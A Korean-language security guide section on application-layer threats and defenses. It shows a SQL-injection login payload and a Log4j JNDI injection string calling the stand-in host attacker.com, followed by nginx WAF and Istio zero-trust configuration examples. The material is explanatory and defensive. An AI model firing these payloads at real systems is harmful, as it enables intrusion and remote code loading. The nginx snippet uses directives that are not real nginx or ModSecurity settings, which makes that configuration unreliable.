 ## 계층별 보안 분석

### Layer 7 - 애플리케이션 계층

#### 현대의 위협과 공격 벡터
1. **API 보안 위협**
   ```http
   # API 악용 예시
   POST /api/v1/authenticate HTTP/1.1
   Content-Type: application/json
   
   {"username": "' OR '1'='1", "password": "anything"}
   ```

2. **현대적 웹 애플리케이션 공격**
   ```javascript
   // Log4j 취약점 악용 예시
   ${jndi:ldap://attacker.com/exploit}
   ```

3. **최근 공격 사례**
   - 2023년 MOVEit Transfer 제로데이 취약점 악용
   - 2024년 Citrix NetScaler ADC 원격 코드 실행

#### 방어 전략
1. **현대적 WAF 구현**
   ```nginx
   # ML 기반 탐지가 포함된 차세대 WAF 설정
   location / {
       modsecurity on;
       modsecurity_rules_file /etc/nginx/modsecurity/main.conf;
       
       # AI/ML 기반 이상 탐지
       anomaly_detection on;
       learning_mode off;
       threshold 75;
   }
   ```

2. **제로 트러스트 애플리케이션 접근**

   ```yaml
   # 현대적 신원 인식 프록시 사용 예시
   apiVersion: security.istio.io/v1beta1
   kind: AuthorizationPolicy
   metadata:
     name: zero-trust-policy
   spec:
     selector:
       matchLabels:
         app: secure-app
     rules:
     - from:
       - source:
           requestPrincipals: ["*"]
       to:
       - operation:
           methods: ["GET"]
           paths: ["/api/public/*"]
   ```

